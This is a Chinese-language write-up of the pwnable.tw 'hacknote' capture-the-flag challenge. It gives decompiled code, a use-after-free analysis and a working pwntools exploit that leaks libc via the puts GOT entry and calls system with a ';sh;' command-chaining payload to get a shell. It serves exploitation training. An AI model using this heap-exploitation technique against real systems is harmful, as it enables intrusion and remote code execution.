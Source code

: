 # pwnable.tw hacknote

### 0x0 前置补偿

[Bash中命令连接符的用法——一次执行多个命令](https://blog.csdn.net/finewings/article/details/6077165?depth_1-utm_source=distribute.pc_relevant.none-task-blog-OPENSEARCH-1&utm_source=distribute.pc_relevant.none-task-blog-OPENSEARCH-1)

### 0x1 分析

看一下安全性：

```shell
[*] './hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

地址固定。

这是一个常规的菜单题：

```c
int menu()
{
  puts("----------------------");
  puts("       HackNote       ");
  puts("----------------------");
  puts(" 1. Add note          ");
  puts(" 2. Delete note       ");
  puts(" 3. Print note        ");
  puts(" 4. Exit              ");
  puts("----------------------");
  return printf("Your choice :");
}
```

`add()`

```c
unsigned int add()
{
  _DWORD *note; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( cnt <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = print;              // 4 bytes
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        note = ptr[i];
        note[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);  // No EOF
        puts("Success !");
        ++cnt;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```

这里每次添加在`.bss`里存一个`0x10`的内存块，用户空间内有`print()`和`content`的地址。

`content`的大小我们自己控制。

`show()`

```c
unsigned int show()
{
  int idx; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  idx = atoi(&buf);
  if ( idx < 0 || idx >= cnt )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[idx] )
    (*(void (__cdecl **)(void *))ptr[idx])(ptr[idx]);
  return __readgsdword(0x14u) ^ v3;
}
```

这里会调用之前`print()`这个地址的函数，参数也是这个地址的内容。

`delete()`

```c
unsigned int delete()
{
  int idx; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  idx = atoi(&buf);
  if ( idx < 0 || idx >= cnt )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[idx] )
  {
    free(*((void **)ptr[idx] + 1));
    free(ptr[idx]);
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

这里`.bss`段上的指针不会被清楚。可以UAF。

#### 漏洞利用

1. `Add`两个note，`content`的大小设置为`0x80`，保证在`free`的时候`content`可以被扔到Unsorted bin内，而不是Fastbin。

2. 添加一个banary。（不添加也没关系。

3. `delete`掉刚才的两个note，两个note的`0x10`的内存块被扔进了Fastbin。

4. `Add`一个note，`content`的大小设置为`0x8`，这样就把刚才的两个`0x10`的内存块申请过来。这样idx0就指向idx3的`content`，idx1就指向idx3的`0x10`的内存块。

   在`Add`idx3的时候，构造`payload `，覆盖idx0的`content`指针指向`puts`的GOT，泄漏libc。

5. 重新申请这两个`0x10`的内存块，构造`payload`为`system`和`b';sh;'`。

   这里要注意点:这里`system`的参数会是自己，这样就不会成功调用，需要一次执行多个命令。

   ```c
   if ( ptr[idx] )
       (*(void (__cdecl **)(void *))ptr[idx])(ptr[idx]);
   ```

6. `show(0)`来拿到shell。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'i386' , os = 'linux', log_level='debug')

# p = process('./hacknote')
p = remote('chall.pwnable.tw', 10102)
# libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./hacknote')
libc = ELF('libc_32.so.6')

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def add(size, content):
    p.sendlineafter('Your choice :', '1')
    p.sendlineafter('Note size :', str(size))
    p.sendafter('Content :', content)

def delete(idx):
    p.sendlineafter('Your choice :', '2')
    p.sendlineafter('Index :', str(idx))

def show(idx):
    p.sendlineafter('Your choice :', '3')
    p.sendlineafter('Index :', str(idx))

# leak libc
add(0x80, 'aaa\n')    # idx : 0
add(0x80, 'bbb\n')    # idx : 1
add(0x80, 'ccc\n')    # idx : 2 banary
delete(0)
delete(1)
payload = flat([
    0x0804862B,     # print 
    elf.got['puts']
])
add(0x8, payload)   # idx : 3
show(0)
puts_addr = u32(p.recv(4))
libc.address = puts_addr - libc.symbols['puts']
print ('libc: ', hex(libc.address))
print ('system :', hex(libc.sym['system']))
pause()

# get shell
delete(3)
payload = flat([
    libc.sym['system'],
    # next(libc.search('/bin/sh\x00'))
    b';sh;'
])
add(0x8, payload)   # idx : 4
show(0)
p.interactive()
```

